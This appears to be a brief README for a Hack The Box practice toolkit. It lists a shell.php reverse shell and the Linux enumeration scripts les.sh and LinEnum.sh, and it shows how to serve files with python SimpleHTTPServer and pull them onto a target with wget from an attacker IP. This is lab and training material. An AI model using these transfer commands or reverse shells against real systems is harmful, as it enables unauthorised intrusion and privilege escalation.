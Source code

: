 # Hackthebox tools
**shell.php** : Use for reverse shell when uploaded to vuln machine

**les.sh and LinEnum.sh** : Use for detect vuln in Linux machine

### How to upload files to vuln linux machine
In your machine type : 
> python -m SimpleHTTPServer

In vuln machine type : 
> wget (your ip address):8000/(file to upload)

Example : 
> wget 10.10.14.62:8000/les.sh
